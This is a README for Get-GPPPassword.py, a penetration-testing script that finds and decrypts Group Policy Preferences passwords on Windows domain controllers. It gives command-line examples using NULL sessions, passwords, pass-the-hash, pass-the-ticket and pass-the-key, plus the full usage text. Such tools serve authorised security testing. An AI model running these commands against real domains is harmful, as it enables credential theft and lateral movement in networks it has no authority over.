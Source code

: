 # Get-GPPPassword

Python script for extracting and decrypting Group Policy Preferences passwords.

## Examples

NULL session

````shell
python3 Get-GPPPassword.py -no-pass domain_controller
````

Username, password

````shell
python3 Get-GPPPassword.py domain.local/someuser:somepassword@domain_controller
````

Pass-the-hash

````shell
python3 Get-GPPPassword.py -hashes [LMhash]:NThash domain.local/someuser@domain_controller
````

Pass-the-ticket (partial ptt)

````shell
export KRB5CCNAME=someuser.ccache
python3 Get-GPPPassword.py -k domain_controller
````

Pass-the-key

````shell
python3 Get-GPPPassword.py -aesKey aesKey domain.local/someuser@domain_controller
````

Overpass-the-hash (check that it actually does opth)

````shell
python3 Get-GPPPassword.py -k -hashes [LMhash]:NThash domain.local/someuser@domain_controller
````

## Usage

```
usage: Get-GPPPassword.py [-h] [-share SHARE] [-base-dir BASE_DIR] [-ts]
                          [-debug] [-hashes LMHASH:NTHASH] [-no-pass] [-k]
                          [-aesKey hex key] [-dc-ip ip address]
                          [-target-ip ip address] [-port [destination port]]
                          target

Group Policy Preferences passwords finder and decryptor

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>

optional arguments:
  -h, --help            show this help message and exit
  -share SHARE          SMB Share
  -base-dir BASE_DIR    Directory to search in (Default: /)
  -ts                   Adds timestamp to every logging output
  -debug                Turn DEBUG output ON

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from
                        ccache file (KRB5CCNAME) based on target parameters.
                        If valid credentials cannot be found, it will use the
                        ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256
                        bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If omitted it
                        will use the domain part (FQDN) specified in the
                        target parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will
                        use whatever was specified as target. This is useful
                        when target is the NetBIOS name and you cannot resolve
                        it
  -port [destination port]
                        Destination port to connect to SMB Server
```

# Credits

Thanks to :
- mxrch for the code allowing to read files in stream instead of downloading them.
- the Impacket project for handling the connections, auth, socket parts.
- Microsoft for releasing the AES encryption key for the cpasswords.
- the best, [@podalirius_](https://twitter.com/@podalirius_) for coding almost everything that my 5-year-old brain couldn't.

# ToDo list
- add a setup file for installing the script
- GIF in the README ?
- licence in the header of the python script

